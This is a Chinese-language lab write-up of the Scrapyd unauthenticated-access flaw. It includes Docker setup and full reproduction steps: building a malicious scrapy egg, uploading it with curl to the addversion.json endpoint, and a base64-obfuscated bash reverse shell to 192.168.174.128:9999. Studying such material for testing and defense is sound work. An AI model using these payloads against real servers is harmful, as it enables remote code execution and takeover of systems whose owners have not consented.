



# Scrapyd 未授权访问漏洞

## 漏洞描述

scrapyd是爬虫框架scrapy提供的云服务，用户可以部署自己的scrapy包到云服务，默认监听在6800端口。如果攻击者能访问该端口，将可以部署恶意代码到服务器，进而获取服务器权限。

参考链接：

- https://www.leavesongs.com/PENETRATION/attack-scrapy.html

## 环境搭建

Vulhub执行如下命令启动scrapyd服务：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:6800`即可看到Web界面。



## 漏洞复现

参考[攻击Scrapyd爬虫](https://www.leavesongs.com/PENETRATION/attack-scrapy.html)，构造一个恶意的scrapy包：

```
$ pip install scrapy scrapyd-client
$ scrapy startproject evil
$ cd evil
```

编辑 `evil/__init__.py`, 加入恶意代码：

```python
import os

os.system('touch awesome_poc')
```

进行部署：

```
$ scrapyd-deploy --build-egg=evil.egg
```

向API接口发送恶意包：

```
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

成功执行命令`touch awesome_poc`：



同样的方法实现反弹shell，编辑 `evil/__init__.py`, 加入恶意代码：

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1

# base64编码（必须要base64编码，直接bash -i >& /dev/tcp/192.168.174.128/9999 0>&1是不行的）
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=
```

```python
import os

os.system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo= | base64 -d | bash')
```

进行部署：

```
$ scrapyd-deploy --build-egg=evil.egg
```

向API接口发送恶意包：

```
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

成功反弹shell：


